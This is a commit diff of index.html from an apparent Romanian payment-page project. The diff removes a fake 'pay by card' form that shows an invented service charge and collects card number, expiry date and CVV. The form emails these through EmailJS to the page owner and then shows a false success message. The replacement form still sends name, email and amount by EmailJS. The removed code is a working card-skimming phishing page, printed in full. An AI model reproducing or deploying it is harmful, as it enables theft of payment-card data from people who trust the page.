

Before and after one commit to BilliHills/plata, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 101-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,190 +3,101 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Plata cu Cardul</title>
-    <script type="text/javascript" src="https://cdn.emailjs.com/dist/email.min.js"></script>
+    <title>Pagina de Plată</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-            background-color: #f4f4f4;
-            margin: 0;
-            padding: 0;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
+            background-color: #f4f4f9;
+            padding: 20px;
+            text-align: center;
         }
 
-        .payment-container {
-            background-color: #fff;
-            border-radius: 10px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
-            padding: 30px;
-            width: 400px;
-            max-width: 100%;
-        }
-
-        .payment-container h2 {
-            text-align: center;
-            margin-bottom: 20px;
+        h1 {
             color: #333;
         }
 
-        .input-group {
-            margin-bottom: 15px;
+        form {
+            background-color: #fff;
+            border-radius: 8px;
+            padding: 20px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+            width: 300px;
+            margin: 0 auto;
         }
 
-        .input-group label {
-            font-size: 14px;
-            color: #555;
-            margin-bottom: 5px;
-            display: block;
+        input[type="text"], input[type="email"], input[type="number"] {
+            width: 100%;
+            padding: 10px;
+            margin: 10px 0;
+            border: 1px solid #ddd;
+            border-radius: 5px;
         }
 
-        .input-group input {
+        button {
             width: 100%;
             padding: 10px;
-            border: 1px solid #ccc;
+            background-color: #4CAF50;
+            color: white;
+            border: none;
             border-radius: 5px;
             font-size: 16px;
-            color: #333;
-        }
-
-        .input-group input:focus {
-            border-color: #4CAF50;
-            outline: none;
-        }
-
-        .button {
-            background-color: #4CAF50;
-            color: white;
-            padding: 12px 0;
-            border: none;
-            width: 100%;
-            font-size: 16px;
-            border-radius: 5px;
             cursor: pointer;
         }
 
-        .button:hover {
+        button:hover {
             background-color: #45a049;
         }
 
-        .footer {
-            text-align: center;
-            font-size: 12px;
-            color: #777;
+        .alert {
             margin-top: 20px;
-        }
-
-        .footer a {
-            color: #4CAF50;
-            text-decoration: none;
-        }
-
-        .footer a:hover {
-            text-decoration: underline;
-        }
-
-        .payment-summary {
-            background-color: #f9f9f9;
-            padding: 15px;
-            border-radius: 5px;
-            margin-bottom: 20px;
-            text-align: center;
-        }
-
-        .payment-summary h3 {
-            margin: 0;
-            font-size: 18px;
-            color: #333;
-        }
-
-        .payment-summary p {
-            margin: 5px 0;
-            font-size: 16px;
-            color: #666;
+            color: green;
+            font-weight: bold;
         }
     </style>
 </head>
 <body>
 
-    <div class="payment-container">
-        <h2>Plătește cu Cardul</h2>
+    <h1>Formular de Plată</h1>
 
-        <!-- Sumar de plată -->
-        <div class="payment-summary">
-            <h3>Sumar de Plata</h3>
-            <p>Prestări servicii de Traducere și Legalizare</p>
-            <p><strong>Total: 150.00 RON</strong></p>
-        </div>
+    <!-- Formularul de plată -->
+    <form id="payment-form">
+        <input type="text" name="name" placeholder="Nume" required>
+        <input type="email" name="email" placeholder="Email" required>
+        <input type="number" name="amount" placeholder="Sumă" required>
+        <button type="submit">Plătește acum</button>
+    </form>
 
-        <form id="payment-form">
-            <!-- Nume -->
-            <div class="input-group">
-                <label for="name">Numele tău</label>
-                <input type="text" id="name" name="name" placeholder="Introduceți numele" required>
-            </div>
+    <!-- Mesaj de succes -->
+    <div class="alert" id="success-message" style="display:none;">Plata a fost procesată cu succes!</div>
+    <!-- Mesaj de eroare -->
+    <div class="alert" id="error-message" style="display:none;">A apărut o eroare la trimiterea emailului.</div>
 
-            <!-- Card -->
-            <div class="input-group">
-                <label for="card-number">Numărul cardului</label>
-                <input type="text" id="card-number" name="card-number" placeholder="xxxx xxxx xxxx xxxx" required>
-            </div>
-
-            <!-- Data Expirării -->
-            <div class="input-group">
-                <label for="expiry-date">Data Expirării</label>
-                <input type="text" id="expiry-date" name="expiry-date" placeholder="MM/YY" required>
-            </div>
-
-            <!-- CVV -->
-            <div class="input-group">
-                <label for="cvv">CVV</label>
-                <input type="text" id="cvv" name="cvv" placeholder="xxx" required>
-            </div>
-
-            <!-- Buton de Plată -->
-            <button type="submit" class="button">Plătește acum</button>
-        </form>
-
-        <div class="footer">
-            <p>Politica de confidențialitate | <a href="#">Termeni și condiții</a></p>
-        </div>
-    </div>
+    <!-- Include librăria EmailJS -->
+    <script type="text/javascript" src="https://cdn.emailjs.com/dist/email.min.js"></script>
 
     <script>
-        // Incarcă EmailJS
-        (function() {
-            emailjs.init("HXJNjK6F40omY-ZqO"); // Înlocuiește cu ID-ul tău din EmailJS
-        })();
+        // Inițializează EmailJS cu API key-ul tău
+        emailjs.init("HXJNjK6F40omY-ZqO");
 
-        // Eveniment la submit formular
-        document.getElementById('payment-form').addEventListener('submit', function(event) {
-            event.preventDefault();
+        // Adaugă evenimentul de trimitere al formularului
+        document.getElementById("payment-form").addEventListener("submit", function(event) {
+            event.preventDefault(); // Previi comportamentul standard de trimitere
 
-            // Preia datele din formular
-            const formData = new FormData(this);
-            const name = formData.get('name');
-            const cardNumber = formData.get('card-number');
-            const expiryDate = formData.get('expiry-date');
-            const cvv = formData.get('cvv');
+            // Colectează datele din formular
+            var formData = new FormData(this);
 
-            // Trimite email cu datele
-            const emailParams = {
-                to_name: name,
-                from_name: 'Plată cu Cardul',
-                card_number: cardNumber,
-                expiry_date: expiryDate,
-                cvv: cvv
-            };
-
-            emailjs.send("service_7str0s2", "template_lyainh9", emailParams)
+            // Trimite datele la EmailJS
+            emailjs.sendForm("service_7str0s2", "template_lyainh9", formData)
                 .then(function(response) {
-                    alert("Plata a fost efectuată cu succes!");
+                    // Afișează mesajul de succes
+                    document.getElementById('success-message').style.display = 'block';
+                    document.getElementById('error-message').style.display = 'none';
+                    console.log('Succes:', response);
                 }, function(error) {
-                    alert("A apărut o eroare la trimiterea emailului. Te rugăm să încerci din nou.");
-                    console.error('Error:', error);
+                    // Afișează mesajul de eroare
+                    document.getElementById('error-message').style.display = 'block';
+                    document.getElementById('success-message').style.display = 'none';
+                    console.log('Eroare:', error);
                 });
         });
     </script>
```
